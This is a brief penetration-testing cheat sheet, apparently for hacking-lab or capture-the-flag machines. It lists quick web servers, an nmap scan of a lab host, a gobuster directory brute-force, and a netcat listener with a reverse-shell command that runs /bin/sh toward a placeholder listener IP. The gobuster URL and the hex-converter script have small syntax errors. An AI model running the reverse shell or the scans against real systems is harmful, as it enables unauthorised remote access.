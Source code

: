 # CheatSheet

## Webserver

### Python

```python
python -m SimpleHTTPServer
```

```python
python3 -m http.server
```

### PHP
```php
php -S 0.0.0.0:8000
```
### Ruby
```ruby
ruby -run -e httpd . -p 8000
```
## nmap
```shell-script
nmap -sC -sV -oA nmap/openadmin 10.10.10.171
```
## gobuster
```bash
gobuster dir -u http:10.10.10.10/ -w /path/to/wordlist
```
## Shells

### Set Listener 
```bash
nc -lnvp 4000
```

### Set Reverse Shell on Target
```bash
nc -e /bin/sh IP.OF.LISTENER 4000
```
## Usefuls Scripts
### HEX Converter
```bash
#!/bin/bash
echo $1 | tr -d “\n” | hexdump -e ‘16/1 “%02x “ “\n”
```
